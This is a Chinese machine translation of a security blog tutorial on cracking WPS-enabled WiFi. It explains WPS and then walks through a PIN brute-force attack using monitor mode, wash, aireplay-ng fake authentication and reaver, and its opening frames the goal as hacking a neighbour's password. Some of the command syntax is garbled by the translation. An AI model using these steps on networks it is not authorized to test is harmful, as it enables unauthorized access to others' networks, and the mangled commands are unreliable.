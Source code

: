 # 开发 WPS 使用掠夺者和假身份验证攻击支持 WPS 的 WIFI

> 原文：<https://infosecwriteups.com/exploiting-wps-hack-a-wps-enabled-wifi-using-reaver-and-fake-authentication-7071b222a33b?source=collection_archive---------0----------------------->

![](img/6796992bf03791b718a496030130729b.png)

来源:谷歌

嘿，伙计们，每当一个新手黑客试图开始学习黑客。第一件事就是尝试黑掉邻居的 WIFI 密码。话虽如此，让我们开始学习什么是 WPS？它是如何工作的？如何通过利用 WPS 获取 WIFI 密码？

> 警告:这篇文章的唯一目的是让读者了解黑客和安全概念。作者或出版者不会鼓励任何人将这里分享的知识用于不道德的目的。

在这篇博客中，我们将学习如何利用现代路由器中的一个特性，即 WPS (WIFI 保护设置)

![](img/8e4f378a851c17c6d85405bfb70d3786.png)

来源:谷歌

# **什么是 WPS？**

WPS 代表 **WIFI 保护设置。**这是与 WPA & WPA2 (WIFI 保护访问& WIFI 保护访问 II)一起使用的功能。

这是一种无线安全标准，旨在使使用 WPA/WPA2 加密与无线接入点建立连接的过程更快、更容易。

> **注意:WPS 仅适用于使用 WPA/WPA2 加密来加密密码的无线接入点。**

# **WPS 如何运作？**

WPS 是一种无线安全标准，有助于在不使用实际密码的情况下连接到接入点。

它有两种操作模式

1.  个人识别码
2.  PBC(按钮配置)

![](img/694400b8c395b19af3a586d8e8747b2a.png)

当接入点设置为使用基于 pin 的认证时，用户需要设置将用于认证的 pin。想要连接到网络的用户现在可以使用此 WPS pin 连接到网络，而无需使用实际密码。

然而，当使用 PBC 模式时，用户必须按下客户端和接入点上的按钮，该按钮可以是虚拟的，也可以是物理的。按下该按钮后，接入点将切换到发现模式，并对尝试连接的设备进行身份验证。在大多数设备上，一旦新设备连接或设备制造商设定的时间限制(通常为 2 分钟或更短)后，发现模式就会关闭。

# **利用 WPS**

现在是时候跳到有趣的东西了，那就是如何利用 WPS 并在没有密码的情况下访问无线网络。但是在我们开始之前，这里有一个给你的提示

> **注意:只有在接入点上启用了 WPS 并配置为不使用 PCB 时，此方法才有效，这意味着应使用 WPS pin 进行身份验证。**

> **要求:一台 KALI LINUX 机器，一个支持监控模式的无线网卡。**

WPS pin 是一个八位数字，并不是一个很大的数字。使用现代计算机，我们可以在短时间内尝试 WPS 的所有可能，这使得它容易受到统计攻击。一旦我们得到正确的 WPS 个人识别码，它就可以用来计算实际的密码。

为此，我们需要遵循一系列步骤:

步骤 1:在无线适配器上切换到监控模式

要切换到监控模式，请在 linux 终端中启动以下命令

> ifconfig[网络接口名称]关闭
> iwconfig[网络接口名称]模式监视器
> ifconfig[网络接口名称]打开

步骤 2:查找启用 WPS 的接入点

要找到启用了 WPS 的接入点，请在 linux 终端中启动以下命令。

> wash 接口[网络接口的名称]

步骤 3:使用假冒身份验证攻击与目标网络建立关联

要在 linux 终端中启动一个假身份验证，请执行以下命令

> air play-ng-fake auth 30-a[目标设备的 MAC]-h[网络接口的 MAC][网络接口的名称]

“30 after fakeauth 表示此攻击将在每 30 秒后发起。让这种攻击在单独的终端中运行”

第四步:使用掠夺者暴力破解 WPS pins

在新的 linux 终端上使用 fakeauth 在另一个终端上运行时，要强力使用 WPS pins 触发以下命令。

> reaver-bssid[目标设备的 MAC]-channel[目标设备的通道]-interface[网络接口的名称] -vvv - no-associate

"-vvv 表示详细；- no-associate 告诉掠夺者不要与目标网络关联"
最好不要使用掠夺者与目标网络关联，因为这样做通常会失败，因为我们已经使用假身份验证与目标网络关联。成功完成攻击后，掠夺者将返回正确的 **WPS pin 和实际密码**

> **注意:如果金甲虫不工作并返回一个错误，尝试使用它的旧版本，因为当前版本包含一些未修复的错误。**

> 如果你有兴趣了解更多关于网络安全的知识，请关注 Instagram 上的 [i.m.pratikdabhi](https://www.instagram.com/i.m.pratikdabhi/)